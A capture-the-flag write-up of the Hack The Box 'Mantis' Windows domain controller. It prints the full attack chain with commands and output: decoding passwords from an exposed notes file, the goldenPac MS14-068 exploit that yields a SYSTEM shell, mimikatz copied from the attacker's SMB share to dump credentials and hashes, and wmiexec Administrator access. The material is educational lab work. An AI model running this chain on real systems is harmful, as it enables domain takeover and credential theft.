






# Mantis
https://app.hackthebox.com/machines/98

Target IP
10.10.10.52

## Enumeration
---

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).
```
sudo $(which autorecon) 10.10.10.52
```

### Nmap

Nmap shows the following

```
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain       syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-10-27 04:17:08Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
1337/tcp  open  http         syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
1433/tcp  open  ms-sql-s     syn-ack ttl 127 Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ssl-date: 2022-10-27T04:18:57+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-10-27T04:09:34
| Not valid after:  2052-10-27T04:09:34
| MD5:   900b960b1cb8cbddb0f97f0519d49554
| SHA-1: ba42a1d61b6ee31b65d3a263d1fb23a8df845748
| -----BEGIN CERTIFICATE-----
| MIIB+zCCAWSgAwIBAgIQVfdNTSyCZpxFTRD0qT5fFDANBgkqhkiG9w0BAQUFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjIxMDI3MDQwOTM0WhgPMjA1MjEwMjcwNDA5MzRaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCBnzANBgkqhkiG9w0BAQEFAAOBjQAwgYkCgYEAxrHvaNLx3wUn
| jOeQn2HaYVqZ5g9gD4Z2PvzbpnuZlsoTUmU7hmImPjnfXKeRyiMN0TyI/JppeH4W
| IqiWIiwmUMf5F+wGZrAuUsK4Vfby7qM8RzViQnBMQDpsCBLDnEBBYQ4oCHSYYzzp
| G0VL0bNWj0ncwZQpv1In538EjklQf6sCAwEAATANBgkqhkiG9w0BAQUFAAOBgQAs
| tgQr9SQV3XKWGcfe52JoePTvy83Ap2chJCS6RDkqP6dVVhC03/fNX5zAAfaeVJo0
| N2rlyumWTDCKbs9t1hTrHr06cpTLkKBRfMqdsuYT0wAHNvhLaO6BWIcstrhAZuIk
| Bs75xg/cJmtJKRPjvrqaAbp1YD8gqb+AecHAPjacVQ==
|_-----END CERTIFICATE-----
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5722/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
8080/tcp  open  http         syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49161/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49166/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49172/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
50255/tcp open  ms-sql-s     syn-ack ttl 127 Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ssl-date: 2022-10-27T04:18:57+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-10-27T04:09:34
| Not valid after:  2052-10-27T04:09:34
| MD5:   900b960b1cb8cbddb0f97f0519d49554
| SHA-1: ba42a1d61b6ee31b65d3a263d1fb23a8df845748
| -----BEGIN CERTIFICATE-----
| MIIB+zCCAWSgAwIBAgIQVfdNTSyCZpxFTRD0qT5fFDANBgkqhkiG9w0BAQUFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjIxMDI3MDQwOTM0WhgPMjA1MjEwMjcwNDA5MzRaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCBnzANBgkqhkiG9w0BAQEFAAOBjQAwgYkCgYEAxrHvaNLx3wUn
| jOeQn2HaYVqZ5g9gD4Z2PvzbpnuZlsoTUmU7hmImPjnfXKeRyiMN0TyI/JppeH4W
| IqiWIiwmUMf5F+wGZrAuUsK4Vfby7qM8RzViQnBMQDpsCBLDnEBBYQ4oCHSYYzzp
| G0VL0bNWj0ncwZQpv1In538EjklQf6sCAwEAATANBgkqhkiG9w0BAQUFAAOBgQAs
| tgQr9SQV3XKWGcfe52JoePTvy83Ap2chJCS6RDkqP6dVVhC03/fNX5zAAfaeVJo0
| N2rlyumWTDCKbs9t1hTrHr06cpTLkKBRfMqdsuYT0wAHNvhLaO6BWIcstrhAZuIk
| Bs75xg/cJmtJKRPjvrqaAbp1YD8gqb+AecHAPjacVQ==
|_-----END CERTIFICATE-----
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (99%), Microsoft Windows 7 or Windows Server 2008 R2 (96%), Microsoft Windows Server 2008 R2 SP1 (96%), Microsoft Windows Server 2008 SP2 or Windows 10 or Xbox One (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 7 Ultimate (96%), Microsoft Windows Vista or Windows 7 SP1 (96%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=10/26%OT=53%CT=1%CU=44150%PV=Y%DS=2%DC=T%G=Y%TM=635A06
OS:B7%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=105%CI=I%TS=7)SEQ(SP=FE%GCD
OS:=1%ISR=105%CI=I%II=I%TS=7)OPS(O1=M539NW8ST11%O2=M539NW8ST11%O3=M539NW8NN
OS:T11%O4=M539NW8ST11%O5=M539NW8ST11%O6=M539ST11)WIN(W1=2000%W2=2000%W3=200
OS:0%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M539NW8NNS%CC=N%Q=)
OS:T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR
OS:%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=8
OS:0%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%
OS:RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.007 days (since Wed Oct 26 21:09:01 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29568/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 10637/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19802/udp): CLEAN (Timeout)
|   Check 4 (port 62876/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2022-10-27T00:18:46-04:00
|_clock-skew: mean: 48m00s, deviation: 1h47m21s, median: 0s
| smb2-time: 
|   date: 2022-10-27T04:18:44
|_  start_date: 2022-10-27T04:09:24
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
```

From it we got the following:
- Microsoft Windows Active Directory LDAP
    - Computer name: `mantis`
    - Domain name: `htb.local`
    - FQDN: `mantis.htb.local`
    - clock-skew: mean: 48m00s, deviation: 1h47m21s
- Windows Server 2008 R2 Standard 7601 Service Pack 1
- IIS 7.5 is running on 2 not default ports
    - 1337/tcp
    - 8080/tcp
- Microsoft SQL Server 2014 12.00.2000.00; RTM
    - 1433/tcp (default)


Lets add the target name and the FQDN on /etc/hosts file.
```
10.10.10.52     mantis mantis.htb.local # HTB Mantis 
```

Checking IIS site we only see the default install page on the server - http://10.10.10.52:1337/ 


`Autorecon`, running with default parameters, does not get all directories of the IIS. 
Running it again with a different wordlist results in finding an extra folder we didn't before. 

```
$ feroxbuster -u http://10.10.10.52:1337/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.52:1337/
 🚀  Threads               │ 10
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       32l       53w      689c http://10.10.10.52:1337/
[#>------------------] - 3m     11369/207629  1h      found:1       errors:0      
[#>------------------] - 3m     11367/207629  50/s    http://10.10.10.52:1337/ 
[#>------------------] - 4m     13261/207629  1h      found:1       errors:0      
500      GET       72l      241w     3026c http://10.10.10.52:1337/orchard
301      GET        2l       10w      160c http://10.10.10.52:1337/secure_notes => http://10.10.10.52:1337/secure_notes/
[########>-----------] - 44m   167309/415258  1h      found:3       errors:0      
[############>-------] - 44m   128369/207629  48/s    http://10.10.10.52:1337/ 
[########>-----------] - 44m   167329/415258  1h      found:3       errors:0      
[############>-------] - 44m   128379/207629  48/s    http://10.10.10.52:1337/ 
[###>----------------] - 13m    38947/207629  47/s    http://10.10.10.52:1337/secure_notes 
[########>-----------] - 45m   172741/415258  1h      found:3       errors:0      
[############>-------] - 45m   131078/207629  48/s    http://10.10.10.52:1337/ 
[####>---------------] - 14m    41659/207629  47/s    http://10.10.10.52:1337/secure_notes
```



Accessing the `.txt` file we see some instructions and at the bottom of the file we also have info about the password.

```
$ curl http://mantis.htb.local:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.

...

Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

From here we see 2 interesting info
1. the file name has a string that looks base64 
```
$ echo -n NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d | xxd -ps -r

m$$ql_S@_P@ssW0rd!
```
2. at the end of the file we have a sequence of 0s & 1s that look a binary
```
$ echo -n 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001 |  perl -lpe '$_=pack"B*",$_'

@dm!n_P@ssW0rd!
```
Ref.: [ascii-to-binary-and-binary-to-ascii](https://unix.stackexchange.com/questions/98948/ascii-to-binary-and-binary-to-ascii-conversion-tools)


Per the text on the file, the first password we got seems related to user admin on SQL and the second one to admin on the OrchardCMD. 

 
| Username | Password | Target |
| --- | --- | --- |
| admin | m$$ql_S@_P@ssW0rd! | orcharddb (SQL) |
| admin | @dm!n_P@ssW0rd! | OrchardCMS |
 

To test the OrchardCMS password we access the other IIS port (8080) on the server  
- http://mantis.htb.local:8080/ 





To test and connect to the SQL server, we can user the `dbeaver` tool.




Inside SQL we find an user related table with info that looks like a domain user account and its password 



| Username | Password | Target |
| --- | --- | --- |
| admin | m$$ql_S@_P@ssW0rd! | orcharddb (SQL) |
| admin | @dm!n_P@ssW0rd! | OrchardCMS |
| james@htb.local | J@m3s_P@ssW0rd! | AD |

`Smbclient` shows that user and password are valid domain credentials.

```
$ smbclient -I 10.10.10.52 -L mantis -U HTB.local/James%J@m3s_P@ssW0rd!

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
```

`Crackmapexec` shows that we have READ access on a couple of shares with this credential.

```
$ crackmapexec smb -u 'James' -p 'J@m3s_P@ssW0rd!' -d 'HTB.local' 10.10.10.52 --shares
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:HTB.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] HTB.local\James:J@m3s_P@ssW0rd! 
SMB         10.10.10.52     445    MANTIS           [+] Enumerated shares
SMB         10.10.10.52     445    MANTIS           Share           Permissions     Remark
SMB         10.10.10.52     445    MANTIS           -----           -----------     ------
SMB         10.10.10.52     445    MANTIS           ADMIN$                          Remote Admin
SMB         10.10.10.52     445    MANTIS           C$                              Default share
SMB         10.10.10.52     445    MANTIS           IPC$                            Remote IPC
SMB         10.10.10.52     445    MANTIS           NETLOGON        READ            Logon server share 
SMB         10.10.10.52     445    MANTIS           SYSVOL          READ            Logon server share
```

```
$ /usr/share/doc/python3-impacket/examples/goldenPac.py HTB.local/James@mantis.htb.local -dc-ip mantis.htb.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password: J@m3s_P@ssW0rd!
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn't get forest info ([Errno Connection error (htb.local:445)] [Errno -2] Name or service not known), continuing
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file QZeiKeYS.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service qsez on mantis.htb.local.....
[*] Starting service qsez.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


Only to have some fun, lets download [mimikatz](https://github.com/gentilkiwi/mimikatz) on the target and try to find the Administrator password.

First start a SMB share on the folder where mimikatz is located.
```
$ cd /usr/share/windows-resources/mimikatz/x64/
$ impacket-smbserver share $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the target, copy it to a local folder.
```
C:\Windows\system32>xcopy \\10.10.14.12\share\mimikatz.exe C:\Users\Administrator\Desktop\
\\10.10.14.12\share\mimikatz.exe
1 File(s) copied
```

Then execute it.

```
C:\Windows\system32>C:\Users\Administrator\Desktop\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

Enable debug.
```
mimikatz # privilege::debug
Privilege '20' OK
```

And use `sekurlsa::logonpasswords` to dump the credential details.
```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 5179094 (00000000:004f06d6)
Session           : RemoteInteractive from 2
User Name         : James
Domain            : HTB
Logon Server      : MANTIS
Logon Time        : 10/27/2022 3:22:03 AM
SID               : S-1-5-21-4220043660-4019079961-2895681657-1103
        msv :
         [00000003] Primary
         * Username : james
         * Domain   : HTB
         * NTLM     : 71b5ea0a10d569ffac56d3b63684b3d2
         * SHA1     : d70dae0e69bc0463f865dd53b9b82dae1ad5a563
         [00010000] CredentialKeys
         * NTLM     : 71b5ea0a10d569ffac56d3b63684b3d2
         * SHA1     : d70dae0e69bc0463f865dd53b9b82dae1ad5a563
        tspkg :
        wdigest :
         * Username : james
         * Domain   : HTB
         * Password : J@m3s_P@ssW0rd!
        kerberos :
         * Username : James
         * Domain   : HTB.LOCAL
         * Password : (null)
        ssp :
        credman :

...

Authentication Id : 0 ; 387540 (00000000:0005e9d4)
Session           : Interactive from 0
User Name         : Administrator
Domain            : HTB
Logon Server      : MANTIS
Logon Time        : 10/27/2022 12:10:13 AM
SID               : S-1-5-21-4220043660-4019079961-2895681657-500
        msv :
         [00010000] CredentialKeys
         * NTLM     : 22140219fd9432e584a355e54b28ecbb
         * SHA1     : 52b58a1d1938754d04bbd292bd09b0acf254b199
         [00000003] Primary
         * Username : Administrator
         * Domain   : HTB
         * NTLM     : 22140219fd9432e584a355e54b28ecbb
         * SHA1     : 52b58a1d1938754d04bbd292bd09b0acf254b199
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : HTB
         * Password : @dm!n!$tr@t0r
        kerberos :
         * Username : Administrator
         * Domain   : htb.local
         * Password : @dm!n!$tr@t0r
        ssp :
        credman :

...
```

Lets add it to our collection.

| Username | Password | Target |
| --- | --- | --- |
| admin | m$$ql_S@_P@ssW0rd! | orcharddb (SQL) |
| admin | @dm!n_P@ssW0rd! | OrchardCMS |
| james@htb.local | J@m3s_P@ssW0rd! | AD |
| Administrator@htb.local | @dm!n!$tr@t0r | AD |

`crackmapexec` output `(Pwn3d!)` confirms the password works.

```
$ crackmapexec smb -u 'Administrator' -p '@dm!n!$tr@t0r' -d 'HTB.local' 10.10.10.52
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:HTB.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] HTB.local\Administrator:@dm!n!$tr@t0r (Pwn3d!)
```

`wmiexec.py` give us a shell with the Administrator user.

```
$ /usr/share/doc/python3-impacket/examples/wmiexec.py HTB.local/Administrator@mantis.htb.local -dc-ip mantis.htb.local

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password: @dm!n!$tr@t0r
[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator
```